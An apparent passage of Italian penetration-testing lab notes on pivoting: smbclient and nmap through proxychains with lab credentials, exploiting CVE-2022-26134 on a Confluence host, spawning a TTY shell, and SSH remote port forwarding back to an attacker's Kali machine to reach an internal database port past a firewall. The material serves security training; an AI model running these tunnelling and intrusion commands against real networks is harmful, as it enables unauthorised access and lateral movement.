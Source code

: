 Ora può essere utilizzato il seguente comando:

```bash
proxychains smbclient -L //IP_4_MACCHINA/ -U hr_admin --password=Welcome1234
```

Oppure lanciare una scansione nmap:

```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn IP_4_MACCHINA
```

## S18.3.3. SSH Remote Port Forwarding

Nei precedenti esempi, siamo stati in grado di connetterci a qualsiasi porta collegata all'interfaccia WAN di CONFLUENCE01. Nel mondo reale i firewall, sia hardware che software, non permettono di fare questo. 

Tuttavia, saremo più spesso in grado di generare traffico in usicta da una rete tramite SSH. In questo caso l' _SSH Remote Port Forwarding_ può essere estremamente utile in quanto può essere utilizzato per connettersi ad un server SSH controllato dall'utente malintenzionato e associare lì la porta di ascolto (una sorta di _reverse-shell_).

Mentre nel port forwarding locale e dinamico, la porta di ascolto è collegata al client SSH, nel port forwarding remoto, la porta di ascolto è collegata al server SSH. Invece dell'inoltro dei pacchetti effettuato dal server SSH, nel port forwarding remoto, i pacchetti vengono inoltrati dal client SSH.

Riconsideriamo il nostro scenario di laboratorio e facciamo un piccolo passo indietro.

Come prima, compromettiamo la 2 macchina utilizzando CVE-2022-26134. Tuttavia, in questo scenario c'è un firewall sul perimetro il quale permette ci permette di collegarci soltanto alla porta TCP 8090.
Qui troviamo un client SSH e lo utilizziamo per configurare un server SSH sulla nostra macchina Kali (1 macchina).

![img](../SSH_Remote_Port_Forwarding.png)

Avviamo il servizio ssh sulla macchina kali (1 macchina):

```bash
sudo systemctl start ssh

sudo ss -ntplu
```

Una volta connessi alla 2 macchina raggiungibile dalla kali (1 macchina), cerchiamo di abilitare la funzionalità _TTY_ tramite questo comando:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Successivamente lanciamo il seguente comando per avviare il _Remote Port Forwarding_:

```bash
ssh -N -R 127.0.0.1:2345:$IP_3_MACCHINA:5432 kali@$IP_1_MACCHINA
```
